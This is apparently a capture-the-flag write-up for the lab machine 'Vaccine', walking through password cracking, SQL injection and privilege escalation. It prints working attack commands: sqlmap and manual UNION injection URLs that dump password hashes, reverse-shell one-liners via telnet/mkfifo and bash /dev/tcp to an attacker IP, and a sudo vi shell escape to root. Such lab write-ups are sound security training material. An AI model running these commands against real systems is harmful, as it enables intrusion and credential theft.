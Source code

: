* [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  

![alt text](./img/vaccine.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/vaccine01.PNG?raw=true)  

![alt text](./img/vaccine02.PNG?raw=true)  

Let’s try to use the credentials found in the OOPSIE machine  
![alt text](./img/vaccine03.PNG?raw=true)  
  
Here we can only find one zip file. Let’s get it and try to unzip  
![alt text](./img/vaccine04.PNG?raw=true)  

This was unexpected…..however this password can be easily cracked with John…  
![alt text](./img/vaccine05.PNG?raw=true)  

Using the password we can unzip the file and get 2 other files: index.php and style.css  
Inside the index.php file we can find a username and a password hash  
![alt text](./img/vaccine06.PNG?raw=true)  

This hash is easier to crack, just use [crackstation](https://crackstation.net/)  
![alt text](./img/vaccine07.PNG?raw=true)  

Now we can login and access the server  

## Exploit  
![alt text](./img/vaccine08.PNG?raw=true)  

Here the SEARCH param is vulnerable to sqli  
![alt text](./img/vaccine09.PNG?raw=true)  
  
Here we can use SQLMAP or do the SQLi manually.  
> SQLMAP  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --dbs  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog --tables  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog -T pg_authid --dump  
![alt text](./img/vaccine10.PNG?raw=true)  

> Manually  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--  
![alt text](./img/vaccine12.PNG?raw=true)  

I tried crack this hash with john and hashcat, however a quick google search could saved some time  
![alt text](./img/vaccine11.PNG?raw=true)  

Remove the username from the found password and we have the correct credential, now we can connect to port 22(ssh) of this server:  
PS: we could use the sqlmap flag --os-shell to gain a shell and after gain an upgraded reverse shell with the next commands. However i lost the connection sometimes with this method  
- sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --os-shell  
- Attacker box: nc -nvlp 1234  
- Victim box: RHOST=10.10.16.82; RPORT=1234; TF=$(mktemp -u); mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF &  
- Attacker box: nc -nvlp 4444  
- Victim box: bash -c 'exec bash -i &>/dev/tcp/10.10.16.82/4444 <&1' &  

![alt text](./img/vaccine13.PNG?raw=true)  
HABEMUS SHELL \o/

## Privesc  
![alt text](./img/vaccine14.PNG?raw=true)  

Look’s like we can run the command “/bin/vi /etc/postgresql/11/main/pg_hba.conf” as sudo, so we can get root:  
- sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  
- PRESS ESC KEY  
- :set shell=/bin/sh
- :shell  
![alt text](./img/vaccine15.PNG?raw=true)  

## Discoveries  
cd /var/lib/postgresql/.ssh  
![alt text](./img/vaccine17.PNG?raw=true)  

/etc/shadow  
![alt text](./img/vaccine16.PNG?raw=true)  
